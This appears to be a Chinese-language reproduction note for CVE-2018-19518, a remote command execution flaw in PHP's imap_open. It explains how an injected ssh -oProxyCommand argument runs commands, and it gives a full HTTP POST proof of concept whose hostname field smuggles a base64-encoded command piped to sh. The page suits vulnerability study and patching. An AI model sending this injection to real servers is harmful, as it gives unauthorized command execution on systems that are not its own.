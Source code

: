 （CVE-2018-19518）PHP imap 远程命令执行漏洞
===========================================

一、漏洞简介
------------

php
imap扩展用于在PHP中执行邮件收发操作。其`imap_open`函数会调用rsh来连接远程shell，而debian/ubuntu中默认使用ssh来代替rsh的功能（也就是说，在debian系列系统中，执行rsh命令实际执行的是ssh命令）。

因为ssh命令中可以通过设置`-oProxyCommand=`来调用第三方命令，攻击者通过注入注入这个参数，最终将导致命令执行漏洞。

二、漏洞影响
------------

三、复现过程
------------

    POST / HTTP/1.1
    Host: www.0-sec.org
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 125

    hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222

![1.png](./resource/(CVE-2018-19518)PHPimap远程命令执行漏洞/media/rId24.png)
